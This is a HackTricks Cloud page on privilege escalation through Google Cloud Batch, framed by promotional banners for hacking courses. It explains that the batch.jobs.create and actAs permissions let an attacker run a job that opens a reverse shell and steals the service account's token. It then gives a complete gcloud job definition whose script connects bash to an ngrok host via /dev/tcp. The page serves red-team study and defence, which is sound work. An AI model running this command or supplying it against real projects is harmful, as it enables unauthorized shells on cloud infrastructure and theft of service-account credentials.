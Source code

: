 # GCP - Batch Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Batch

Basic information:

{% content-ref url="../gcp-services/gcp-batch-enum.md" %}
[gcp-batch-enum.md](../gcp-services/gcp-batch-enum.md)
{% endcontent-ref %}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

It's possible to create a batch job, get a reverse shell and exfiltrate the metadata token of the SA (compute SA by default).

```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
  "name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
  "taskGroups": [
    {
      "taskCount": "1",
      "parallelism": "1",
      "taskSpec": {
        "computeResource": {
          "cpuMilli": "1000",
          "memoryMib": "512"
        },
        "runnables": [
          {
            "script": {
              "text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
            }
          }
        ],
        "volumes": []
      }
    }
  ],
  "allocationPolicy": {
    "instances": [
      {
        "policy": {
          "provisioningModel": "STANDARD",
          "machineType": "e2-micro"
        }
      }
    ]
  },
  "logsPolicy": {
    "destination": "CLOUD_LOGGING"
  }
}
EOD
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
